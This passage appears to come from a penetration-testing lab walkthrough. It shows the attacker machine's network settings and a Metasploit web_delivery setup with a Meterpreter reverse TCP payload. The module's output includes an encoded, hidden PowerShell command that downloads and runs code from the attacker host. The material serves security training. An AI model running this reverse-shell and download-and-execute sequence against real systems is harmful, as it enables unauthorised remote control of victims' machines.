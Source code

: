 <span style="color: #e57373;">**Attacker machine**</span>.

_Check the network configuration on the attacker machine to set up the Metasploit listener on the correct interface (here, `eth1`)._

`ipconfig`:
```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.1.0.4  netmask 255.255.0.0  broadcast 10.1.255.255
        ether 02:42:0a:01:00:04  txqueuelen 0  (Ethernet)
        RX packets 11317  bytes 891122 (870.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 10396  bytes 3926362 (3.7 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.46.4  netmask 255.255.255.0  broadcast 10.10.46.255 ←
        ether 02:42:0a:0a:2e:04  txqueuelen 0  (Ethernet)
        RX packets 132302  bytes 7270341 (6.9 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 133793  bytes 7968062 (7.5 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 52160  bytes 139259128 (132.8 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 52160  bytes 139259128 (132.8 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

_Set up and configure the Metasploit `web_delivery` module to generate a payload that can be executed on the target machine. The payload will create a Meterpreter session back to the attacker's machine._

`msfconsole -q`

`search web_delivery`, `use exploit/multi/script/web_delivery`, `set PAYLOAD windows/meterpreter/reverse_tcp`, `show options`, `set LHOST 10.10.46.4`, `set LPORT 4444`, `show targets`, `set TARGET PSH`, `exploit`:
```
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.46.4:4444 
[*] Using URL: http://0.0.0.0:8080/ZKJDq3Ypu
[*] Local IP: http://10.10.46.4:8080/ZKJDq3Ypu
[*] Server started.
[*] Run the following command on the target machine:
powershell.exe -nop -w hidden -e WwBOAGUAdAAuAFMAZQByAHYAaQBjAGUAUABvAGkAbgB0AE0AYQBuAGEAZwBlAHIAXQA6ADoAUwBlAGMAdQByAGkAdAB5AFAAcgBvAHQAbwBjAG8AbAA9AFsATgBlAHQALgBTAGUAYwB1AHIAaQB0AHkAUAByAG8AdABvAGMAbwBsAFQAeQBwAGUAXQA6ADoAVABsAHMAMQAyADsAJABVAD0AbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZ

...

AEUAWAAgACgAKABuAGUAdwAtAG8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADQANgAuADQAOgA4ADAAOAAwAC8AWgBLAEoARABxADMAWQBwAHUAJwApACkAOwA=
```
